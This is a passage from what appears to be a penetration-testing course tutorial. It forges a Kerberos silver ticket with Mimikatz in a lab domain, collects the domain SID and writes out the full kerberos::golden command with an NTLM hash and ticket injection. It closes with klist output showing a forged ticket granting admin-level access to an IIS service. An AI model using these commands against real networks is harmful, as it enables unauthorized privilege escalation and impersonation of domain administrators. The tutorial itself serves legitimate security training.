 
Now, let's obtain the domain SID, the second piece of information we need. We can enter whoami /user to get the SID of the current user. Alternatively, we could also retrieve the SID of the SPN user account from the output of Mimikatz, since the domain user accounts exist in the same domain.

As covered in the Windows Privilege Escalation Module, the SID consists of several parts. Since we're only interested in the Domain SID, we'll omit the RID of the user.

```bash
PS C:\Users\jeff> whoami /user # Looking for SID

USER INFORMATION
----------------

User Name SID
========= =============================================
corp\jeff S-1-5-21-1987370270-658905905-1781884369-1105
```

The last list item is the target SPN. For this example, we'll target the HTTP SPN resource on WEB04 (HTTP/web04.corp.com:80) because we want to access the web page running on IIS.

Now that we have collected all three pieces of information, we can build the command to create a silver ticket with Mimikatz. We can create the forged service ticket with the kerberos::golden module. This module provides the capabilities for creating golden and silver tickets alike.

We need to provide the domain SID (/sid:), domain name (/domain:), and the target where the SPN runs (/target:). We also need to include the SPN protocol (/service:), NTLM hash of the SPN (/rc4:), and the /ptt option, which allows us to inject the forged ticket into the memory of the machine we execute the command on.

```bash
mimikatz # kerberos::golden /sid:S-1-5-21-1987370270-658905905-1781884369 /domain:corp.com /ptt /target:web04.corp.com /service:http /rc4:4d28cf5252d39971419580a51484ca09 /user:jeffadmin
...
mimikatz # exit
```

A new service ticket for the SPN HTTP/web04.corp.com has been loaded into memory and Mimikatz set appropriate group membership permissions in the forged ticket. From the perspective of the IIS application, the current user will be both the built-in local administrator ( Relative Id: 500 ) and a member of several highly-privileged groups, including the Domain Admins group ( Relative Id: 512 ).

This means we should have the ticket ready to use in memory. We can confirm this with klist.

```bash
PS C:\Tools> klist

Current LogonId is 0:0xa04cc

Cached Tickets: (1)

#0>     Client: jeffadmin @ corp.com
        Server: http/web04.corp.com @ corp.com
        KerbTicket Encryption Type: RSADSI RC4-HMAC(NT)
        Ticket Flags 0x40a00000 -> forwardable renewable pre_authent
        Start Time: 9/14/2022 4:37:32 (local)
        End Time:   9/11/2032 4:37:32 (local)
        Renew Time: 9/11/2032 4:37:32 (local)
        Session Key Type: RSADSI RC4-HMAC(NT)
        Cache Flags: 0
        Kdc Called:
```
